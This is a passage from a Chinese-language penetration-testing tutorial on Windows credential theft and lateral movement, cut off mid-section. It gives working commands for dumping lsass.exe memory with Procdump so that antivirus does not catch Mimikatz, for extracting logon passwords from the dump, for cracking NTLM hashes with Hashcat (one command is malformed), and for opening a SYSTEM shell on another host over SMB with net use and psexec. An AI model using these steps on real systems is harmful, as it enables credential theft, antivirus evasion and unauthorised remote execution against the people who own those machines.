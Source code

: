 Mimikatz属于第三方软件，直接上传到目标主机可能被杀毒软件查杀，这时我们可以配合官方软件Procdump，将Procdump上传目标主机获取用户信息(dmp文件)，使用本地的Mimikatz打开Procdump获取的用户信息。

- Procdump下载：https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump
- mimikatz下载：https://github.com/gentilkiwi/mimikatz/releases

#### procdump 配合 mimikatz

```shell
procdump -accepteula -ma lsass.exe lsass.dmp
```

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/67-3.png)

mimikatz 上执行：

```shell
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full
```

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/67-4.png)



## 案例2：Hashcat破解获取Windows NTML Hash

[密码破解全能工具：Hashcat密码破解攻略 - FreeBuf网络安全行业门户](https://www.freebuf.com/sectool/164507.html)

```shell
hashcat -a 0-m 1000 hash file --force
```



## 案例3：域横向移动SMB服务利用-psexec,smbexec

利用SMB服务可以通过明文或hash传递来远程执行，条件445服务端口开放。

#### psexec工具：

- 在微软官方Pstools工具包中，但是官方Pstools中的psexec只能明文连接，无法采用hash连接。
- 如果需要hash连接，可以使用impacket工具包中的psexec，但是impacket非官方自带，容易被杀。
- Pstools官方工具包：
  - https://docs.microsoft.com/en-us/sysinternals/downloads/pstools

##### psexec第一种：:ADMINISTRATOR

先有ipc链接，psexec需要明文或hash传递

```shell
net use \\192.168.3.32\ipc$  "admin!@#45" /user :administrator
psexec \\192.168.3.32 -s cmd  # 需要先有ipc链接 -s以System权限运行CMD
```

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/67-5.png)

##### psexec第二种：
